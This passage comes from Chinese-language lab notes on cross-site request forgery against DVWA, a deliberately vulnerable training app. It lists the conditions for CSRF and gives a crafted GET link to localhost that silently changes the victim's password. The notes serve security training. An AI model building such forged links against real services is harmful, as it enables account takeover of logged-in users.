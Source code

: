 1. 攻擊對象已經登入服務，在不需要重新驗證的情況下，從其他網域或地方也能存取服務
2. 服務本身有透過連結觸發某些能被你利用功能 (e.g 改密碼, 轉帳)

這就是惡意連結，直接在瀏覽器新開分頁貼上執行，會更改密碼

```bash
GET http://localhost:8086/vulnerabilities/csrf/?password_new=1111&password_conf=1111&Change=Change
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2014.png)

如果是在沒登入過的狀態，就會跳轉到登入頁面

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2015.png)

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2016.png)
